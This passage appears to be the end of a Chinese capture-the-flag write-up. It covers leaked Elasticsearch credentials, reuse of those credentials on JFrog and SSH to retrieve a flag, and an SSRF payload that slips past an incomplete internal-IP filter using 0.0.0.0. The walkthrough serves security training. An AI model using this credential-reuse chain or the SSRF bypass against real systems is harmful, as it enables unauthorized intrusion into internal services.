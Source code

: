 ```json
    "hits": [
      {
        "_index": "bilibili-1024",
        "_type": "_doc",
        "_id": "2eSE84MBoy7sRgaelu2S",
        "_score": 1.0,
        "_source": {
          "username": "ctfer",
          "passwd": "1qaz@WSX",
          "ttl": "false",
          "msg": "good luck ctfer"
        }
      }
    ]
```

这个账号密码有可能是JFrog的，也可能是openssh的。都试一下吧。发现是JFrog的。

=> 访问 8082端口

登录之后在 http://101.132.189.74:8082/ui/native/generic-local/ssh_info 找到ssh登陆凭证的下载路径。

下载后打开文件内容：`ctfer/91431d5438eb28f7`。然后登陆ssh登陆：101.132.189.74:2222。

```bash
ctfer@26c23327b33c:~$ ls
flag  tools
ctfer@26c23327b33c:~$ cat flag
flag5{Ez_G0laNg_SsRf}
```

顺利拿到flag5。



## 其他可能的解决办法

- 不需要使用DNS Rebinding，使用 http://101.132.189.74/get?t=http://0.0.0.0:9200 也能访问到内网。因为 IsInternalIp() 的过滤规则不够完善。



## 参考

- [Grafana 文件读取漏洞分析与汇总(CVE-2021-43798)](https://blog.riskivy.com/grafana-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B8%8E%E6%B1%87%E6%80%BBcve-2021-43798/)